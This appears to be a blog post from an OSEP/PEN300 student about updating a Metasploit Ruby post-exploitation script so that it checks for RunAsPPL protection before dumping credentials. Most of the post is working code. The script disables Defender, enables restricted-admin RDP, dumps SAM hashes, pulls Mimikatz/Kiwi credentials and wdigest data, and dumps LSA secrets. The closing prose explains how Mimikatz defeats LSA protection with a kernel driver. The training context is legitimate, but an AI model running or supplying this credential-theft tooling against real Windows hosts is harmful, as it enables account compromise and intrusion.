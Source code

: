 ```yaml
---
title: "Added RunAsPPL Check to Our PEN300 MSF Script"
date: 2021-12-01T10:21:33Z
categories: ["Programming", "Security"]
tags: ["OSEP", "PEN300", "Ruby", "Metasploit", "MIMIKATZ", "Hash_dump"]
---
```


While running some test this morning and stumbled on the following error:  

```sh
Could not execute auto: Rex::Post::Meterpreter::RequestError priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect.
```


This occurred while executing right after enabling restricted admin in our MSF script as show in the screenshot.  

![Error at priv_passwd_get_sam_hashes](/images/RunAsPPL/error.png)

There are two important points we need to discuss here, first when the error happened, it was not handle hence, the script stop running, this bad.  

The second point is what could go wrong right? the Meterpreter session is running as Administrator and Microsoft has been disable!  

Well, when we wrote the script we forgot to take in consideration `RunAsPPL` protection, this post won't be about describing what this feature is or how to bypass this feature, plus we don't need to, Mimikatz does it for us, which,  we will cover later on at the end of this post.   

Identifying the issue was trivial due to functions call used in the script, right after enabling resticted admin for RDP, the script dumps the creds found in the machine.  

```ruby
...
if is_system? or is_admin?
	start_admin_tasks
...
def start_admin_tasks
	disable_defender
	enable_restricted_admin_rdp
	dump_creds
	list_tokens
end
...
def dump_creds
	priv = Rex::Post::Meterpreter::Extensions::Priv::Priv.new(session)
	hashes = priv.sam_hashes
	print_status("\tDumping SAM Hashes")
	hashes.each do |hash|
	print_line("\t\t#{hash}")
	end
	print_status("\tAttempting to load KIWI")
	b = session.core.use('kiwi')

	if b
		print_good("\tKiwi loaded!")
		kiwi = Rex::Post::Meterpreter::Extensions::Kiwi::Kiwi.new(session)
		# creds_all
		credsall = kiwi.creds_all
		print_status("\tDumping creds_all")
		print_status("\t\t#{credsall}")
		# creds_wdigest
		credswdigest = kiwi.creds_wdigest
		print_status("\tDumping creds_wdigest")
		credswdigest[:wdigest].each do |wdigest|
			print_line("\t\t#{wdigest}")
		end
		# LSA Secrets
		secrets = kiwi.lsa_dump_secrets
		print_status("\tDumping LSA Secrets")
		print_line("\t\t#{secrets}")

	end
end
...
```

As said previously, dump_creds() function does not handle errors, this is can fixed trivially with begin block exception, which, we will do at the end. For now we will first creates function that checks if RunAsPPL is enabled on the system, to do so we can check the value of the registry `RunAsPPL` in `HKLM\SYSTEM\CurrentControlSet\Control\Lsa`.  

```ruby
def is_run_as_ppl_enabled?
	enabled = false
	begin
		key = 'HKLM\SYSTEM\CurrentControlSet\Control\Lsa'
		root_key, base_key = session.sys.registry.splitkey(key)
		value = 'RunAsPPL'
		open_key = session.sys.registry.open_key(root_key, base_key, KEY_READ)
		v = open_key.query_value(value)
		if v.data == 1
			enabled = true
		else
			enabled = false
		end
		open_key.close
	rescue => exception
		print_error("\tReading RunAsPPL registery key failed: #{exception}")
	end
	enabled
end
```

Straight forward process really, nothing out of the ordinary here, now below is the full code of the updated version of dum_creds() function:  

```ruby
def dump_creds
	begin
		if !is_run_as_ppl_enabled?
			priv = Rex::Post::Meterpreter::Extensions::Priv::Priv.new(session)
			hashes = priv.sam_hashes
			print_status("\tDumping SAM Hashes")
			hashes.each do |hash|
				print_line("\t\t#{hash}")
			end
		end

		print_status("\tAttempting to load KIWI")
		b = session.core.use('kiwi')
		if b
			print_good("\tKiwi loaded!")
			kiwi = Rex::Post::Meterpreter::Extensions::Kiwi::Kiwi.new(session)
			# creds_all
			credsall = kiwi.creds_all
			print_status("\tDumping creds_all")
			print_status("\t\t#{credsall}")
			# creds_wdigest
			credswdigest = kiwi.creds_wdigest
			print_status("\tDumping creds_wdigest")
			credswdigest[:wdigest].each do |wdigest|
				print_line("\t\t#{wdigest}")
			end

			# LSA Secrets
			secrets = kiwi.lsa_dump_secrets
			print_status("\tDumping LSA Secrets")
			print_line("\t\t#{secrets}")
		end

	rescue => exception
		print_error("\tDumpCreds failed: #{exception}")
	end
end
```

Running our tests again, no errors were raised! it is much less error prone, always check for exception and error in your code.  

![No errors](/images/RunAsPPL/good.png)

Earlier, I said that Mimikatz bypass the protection for us, I think I need to be more descriptive here for clarity. In the nutshell, the way Mimikatz bypass the feature is by loading its driver and then disable the feature from the kernel, now by simply loading Mimikatz it does it under the hound and the equivalent of hash_dump function in Mimikatz is lsa_dump_sam, which a function wrap to `lsadump::sam`.

References:
- https://www.rubydoc.info/github/rapid7/metasploit-framework/Rex/Post/Meterpreter/Extensions/Kiwi/Kiwi 
- https://www.rubydoc.info/github/rapid7/metasploit-framework/Rex/Post/Meterpreter/Extensions/Priv/Priv 
- https://itm4n.github.io/lsass-runasppl/
- https://docs.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/configuring-additional-lsa-protection 
- https://www.rubydoc.info/github/rapid7/metasploit-framework/Rex/Post/Meterpreter/Extensions/Kiwi/Kiwi#lsa_dump_sam-instance_method